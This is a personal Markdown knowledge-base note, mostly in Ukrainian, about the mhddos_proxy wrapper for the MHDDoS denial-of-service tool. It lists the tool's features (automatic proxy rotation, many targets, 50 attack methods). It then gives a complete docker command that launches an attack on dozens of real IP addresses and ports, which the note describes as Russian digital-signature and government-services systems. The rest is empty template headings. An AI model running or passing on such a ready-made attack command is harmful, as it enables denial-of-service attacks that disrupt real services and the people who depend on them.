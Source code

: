```yaml
---
alias: [ ]
---
```

tag: #Medium #Util   
[Source](https://telegra.ph/MHDDoS-Proxy-03-13),  
Docs:  [MHDDoS](https://github.com/MHProDev/MHDDoS), [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)

## mhddos_proxy
[mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy) - 
Скрипт-обгортка для запуску потужного DDoS інструмента [MHDDoS](https://github.com/MHProDev/MHDDoS).

### Особливості
-   **Не потребує VPN** - автоматично скачує і підбирає робочі проксі для заданих цілей, iз >35000 інстансів, періодично їх оновлюючи
-   Атака **декількох цілей** з автоматичним балансуванням навантаження
-   Використовує **50  рiзних методiв для атаки** і змінює їх в процесі роботи
-   Простий та зрозумілий інтерфейс з іменованими параметрами


#### Приклад запуску атаки на адреси для цифрових підписів і госусулуг в РФ через докер.
```bash
docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy:latest  tcp://213.59.254.8:443 tcp://213.59.254.8:80 tcp://109.207.14.3:443 tcp://109.207.14.3:80 tcp://109.207.14.3:53 tcp://87.226.162.78:25 tcp://87.226.162.78:110 tcp://87.226.162.78:443 tcp://87.226.162.78:587 tcp://87.226.162.78:995 tcp://185.194.34.142:22 tcp://185.194.34.142:23 tcp://185.194.34.142:25 tcp://185.194.34.142:53 tcp://185.194.34.142:80 tcp://185.194.34.142:110 tcp://185.194.34.142:443 tcp://185.194.34.142:1433
tcp://213.59.197.65:80 tcp://213.59.197.65:443 tcp://185.71.67.237:22 tcp://185.71.67.237:23 tcp://185.71.67.237:25 tcp://185.71.67.237:53 tcp://185.71.67.237:80 tcp://185.71.67.237:110 tcp://185.71.67.237:443 tcp://185.71.67.237:1433 tcp://185.71.67.237:1521 tcp://185.71.67.237:3306 tcp://185.71.67.237:3389 tcp://82.151.111.186:22 tcp://82.151.111.186:80 tcp://82.151.111.186:110
tcp://82.151.111.186:143 tcp://82.151.111.186:443 tcp://82.151.111.187:25 tcp://82.151.111.187:80 tcp://82.151.111.187:110 tcp://82.151.111.187:443 tcp://91.239.5.18:25 tcp://91.239.5.18:80 tcp://91.239.5.18:110 tcp://91.239.5.18:143 tcp://91.239.5.18:443 tcp://91.239.5.18:465 tcp://91.239.5.18:993 tcp://91.239.5.75:80 tcp://91.239.5.75:443 tcp://91.239.5.75:7777 tcp://82.146.56.128:21 tcp://82.146.56.128:22 tcp://82.146.56.128:25 tcp://82.146.56.128:53 tcp://82.146.56.128:80 tcp://82.146.56.128:143 tcp://82.146.56.128:465 tcp://82.146.56.128:587 tcp://82.146.56.128:993 tcp://185.58.223.206:80 tcp://185.58.223.206:443 tcp://185.58.223.206:500 tcp://178.248.238.15:80 tcp://178.248.238.15:443
tcp://92.53.98.191:21 tcp://92.53.98.191 tcp://92.53.98.191:22 tcp://92.53.98.191:80 tcp://92.53.98.191:443 tcp://109.207.1.97:80 tcp://109.207.1.97:443 tcp://109.207.1.97:8443 tcp://37.230.115.34:22 tcp://37.230.115.34:80 tcp://37.230.115.34:123 tcp://37.230.115.34:443 tcp://37.230.115.34:1500 tcp://213.159.213.33:21 tcp://213.159.213.33:22 tcp://213.159.213.33:53 tcp://213.159.213.33:80 tcp://213.159.213.33:110 tcp://213.159.213.33:443 tcp://213.159.213.33:465 tcp://213.159.213.33:587 tcp://213.159.213.33:993 tcp://213.159.213.33:995 -t 1000 -p 300 --rpc 100 --http-methods TCP --debug
```
### Шпаргалки:
######  
```bash

```
######  
```bash

```
## Используемые или важные ключи.
[rus](https://telegra.ph/MHDDoS-Proxy-03-13)
### Файлы  




